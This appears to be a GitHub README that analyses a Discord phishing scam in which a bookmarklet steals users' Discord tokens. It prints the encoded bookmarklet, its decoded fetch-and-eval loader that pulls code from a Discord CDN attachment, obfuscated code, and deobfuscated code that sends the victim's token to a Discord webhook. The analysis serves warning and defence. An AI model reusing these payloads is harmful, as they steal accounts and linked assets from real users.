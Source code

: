 ## 📒 Introduction

**Scam Website:** https://projectgodjira.com/

I am neutral when it comes to NFTs. Recently, someone from a NFT community notfied me about this new scam involving bookmarklets, and a phishing website to steal Discord accounts and any linked NFTs.

**How the underlying scam works:**
1. The victim is DMed a link via Discord. The website in this DM is `https://projectgodjira.com/`. (The scam website)
2. When visitng this website, you are prompted to drag and drop a bookmarklet into your bookmark tray.
3. Upon clicking the bookmarklet, you are prompted to enter a "verification key" to gain access to their Discord server. 
4. As soon as that dialog is submitted, your Discord token is sent through a webhook to their Discord server.

**Quick Notes:**
- It appears they have linked a legit Twitter NFT service on their website to trick users: https://twitter.com/PGodjira.
- After using a BetterDiscord plugin to find hidden channels, there was a channel in their server named `#mod-logs`.

## 👀 First Glance
1. This is the bookmarklet hosted on the scam website at first glance:
```js
javascript:window.prompt('Enter your whitelist key:');eval(/*xmarksthespot.*/atob(/*Whitelist.*/'ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
2. The window.prompt() event is useless, lets get rid of this; as well as the comments. 

```js
javascript:eval(atob('ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
3. This is obviously code in base64, being decoded by the JavaScript `atob()` function, then ran. Lets go ahead and decode this.
```js
javascript:eval("fetch('https://cdn.discordapp.com/attachments/939341957723979776/939343633717559326/message.txt').then(response => response.text()).then(success => eval(success))")
```

4. We can now see a Discord CDN attachment, where they have hidden the rest of their "malware."
   - This code is most likely obfuscated with https://obfuscator.io/.

## 🚧 Going Deeper
1. I first used https://lelinhtinh.github.io/de4js/ to clean things up and format the obfuscated code.
2. I searched for strings such as `method`, `body`, and `fetch()` and came across the code below.
  ```js
_0x188590[_0x4444dd('0x39d', '0x344', '0x378', 'XRyX', 0x36d) + 'nt'] = _0x24e573(0xd9, '0qqU', '0xc6', 0xf5, 0x96) + _0x24e573(0x9, '*sVU', 0x105, -'0x35', 0x121) + _0x5d3af8(-0x72, -0x24b, '0qqU', -0x167, -0x10f) + ': ' + _0x15825c, fetch(_0x4444dd(0x393, 0x3d0, '0x32e', 'Azem', '0x2be') + _0x5735dc(0x15, 0xa9, 'gvqV', -'0x3b', 0x70) + _0x4444dd(0x38a, 0x46f, 0x3ec, 'Azem', '0x428') + _0x5d3af8(-0x11f, -'0x104', '*sVU', -0x2e, -'0x8f') + _0x4444dd(0x58f, 0x553, 0x491, '#T)l', 0x59c) + _0x24e573('0x1c', 'oe#2', 0x91, -0x21, -0x19) + _0x4444dd(0x3d1, 0x4a0, 0x45f, 'w2LG', 0x3f7) + _0x4444dd('0x418', 0x4df, 0x4d1, ')dR0', 0x3e7) + _0x24e573('0x6b', '0qqU', 0x83, 0x8e, -0x75) + _0x24e573(0xb8, 'CttX', 0x116, -'0x24', 0x90) + _0x5735dc(0x14b, 0xdd, 'Yqd8', '0x17c', '0xd2') + _0x1564d3(-0x167, 'Qa)H', -0xaf, -'0x140', 0x4e) + _0x24e573(-0x34, '7R#O', '0xe', 0x64, -'0x6d') + _0x4444dd('0x3c7', '0x27e', '0x347', '*AOY', 0x29e) + _0x5d3af8(-0x1cf, -0x6c, 'l2J&', -'0x105', -0x189) + _0x24e573(-0xfc, 'w2LG', -'0x17e', -'0x1ed', -0x7c) + _0x24e573('0x3a', '4]PG', 0x42, 0x79, -0x93) + _0x5735dc(0x71, 0x1ce, '*sVU', 0x1c9, '0x146') + _0x1564d3(-'0x1c3', 'w2LG', -'0x2ae', -0x31e, -'0x27e') + _0x4444dd(0x3b8, 0x44a, '0x3c9', 'Ykiw', '0x2f4') + _0x5d3af8(-0x1a8, -'0x1d', 'CttX', -'0xce', -'0x1c7') + _0x5d3af8(-0x22, -'0x1ce', 'CttX', -'0xe7', -'0x122') + _0x24e573(-'0x8e', 'Yqd8', -0x116, -0xa7, -'0x175') + _0x24e573(-0x96, 'wQ7E', -'0x170', -0x37, 0x60), {
    'method': _0x24e573(-0x12, '#T)l', 0x41, -'0x19', 0xf7),
    'headers': _0x451189,
    'body': JSON[_0x5735dc(0x1e1, -0x39, 'Yqd8', -'0x2', 0xde) + _0x5735dc(0x118, 0xb, '#qiQ', 0x1c6, '0xfd')](_0x188590)
}), alert(_0x1564d3(-0x61, 'Ykiw', -0x161, -0x97, -0x187) + _0x5735dc('0x285', 0xdf, 'PqTf', 0x286, '0x1c6') + _0x5735dc('0x17c', '0xf7', '#qwt', '0x140', 0xf2) + _0x5d3af8(-0x9, -'0x88', 'Oiv%', -'0xc1', -0x85) + _0x5735dc(0xea, '0x233', 'PYo$', 0x118, 0x1eb));
   ```
3. After a few `alert()` and `JSON.stringify()` functions later, the code above can be deobfuscated to:
 ```js
fetch("https://discord.com/api/webhooks/939322818280185906/ZkaQPqSP-vOrUdIObzR0QsU65jYkcoU6s7YEFjQphrhE_IOOHkDD2B-ip8hOFC4x9Tpa", {
  'method': 'POST',
  'headers': {'Content-Type': 'application/json'},
  'body': JSON.stringify({"username":"Logger","content":"@everyone Token: <VICTIMS DISCORD TOKEN>"})
}), alert("You have been whitelisted successfully!");
 ```

4. This makes it obvious that this is a scam, not to mention, it being a bookmarklet. 
   - The victims token will be sent over the webhook to their Discord server `#mod-logs` hidden channel.

## ⛔ Heads up!
People have fallen for this, due to this tactic not being widely seen. I hate to see people loose time and money due to this. Remember the notes below.
- If you are prompted to add a bookmarklet, proceed with caution! Bookmarklets can become way more complex than this scam.
- Do not leave sensitive information lying around in your Discord account! There are lots of grabbers nowdays, lmfao.
- Dont believe Discord DM advertisements, they are always false.
